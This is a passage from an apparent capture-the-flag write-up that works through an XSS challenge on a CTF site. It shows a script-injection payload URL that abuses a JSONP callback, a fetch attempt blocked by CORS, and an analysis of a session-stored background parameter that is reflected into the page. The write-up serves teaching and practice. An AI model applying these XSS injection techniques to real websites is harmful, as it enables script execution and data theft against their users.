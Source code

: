 The output (URL decoded):
```shell
http://xss.allesctf.net/?search=<script src='http://xss.allesctf.net/items.php?cb=alert(1)//'></script><script src='http://xss.allesctf.net/items.php?cb=alert(2)//'></script>
```
And when we visit that we get two alerts.
And here is the fetch:
```python
print(exec_js(["""
x=document.getElementById("stage2").href
function cb1(r){
    console.log(r)
}
n=fetch(x).then(cb1)
"""
]))
```
@import "cors.png"
But it fails because of `CORS`
There is not `Access-Control-Allow-Origin` header. It won't be that easy :(
We could redirect the user to the site, but the we loose control and can't exfiltrate the flag.

After some trial and error I decided to look a bit into stage2. It has a comment:
```
What is CORS? Baby don't hurt me, don't hurt me - no more! 
```
This told me that I was on the right track.
In `stage2` we can change the background:
@import "bg.png"
This is preserved on reloads and therefore saved on the server in the session.
The clients send a `POST` request to the server with the content:
`bg=red`, `bg=green` or `bg=tree` and the server puts the value into a input field in the following responses:
```html
<!-- set bg color -->
<input type="hidden" id="bg" value="tree">
```
This is the parsed by `background.js` which is loaded by the page
```js
$(document).ready(() => {
    $("body").append(backgrounds[$("#bg").val()]);
});

$(document).ready(() => {
    $(".bg-btn").click(changeBackground)
});

const changeBackground = (e) => {
    fetch(window.location.href, {
        headers: {'Content-type': 'application/x-www-form-urlencoded'},
        method: "POST",
        credentials: "include",
        body: 'bg=' + $(e.target).val() 
    }).then(() => location.reload())

};
```
The `backgrounds` variable is created inside a `script` element in the page of `stage2`
```html
<script nonce="NcC/JCZ+axyPTQeyv0XZs1YsMEk=">
    var backgrounds = {
        'red': [
            '<img class="bg-img" src="/static/img/red.png"></img>'
         ],
         'green': [
             '<img class="bg-img" src="/static/img/green.png"></img>'
```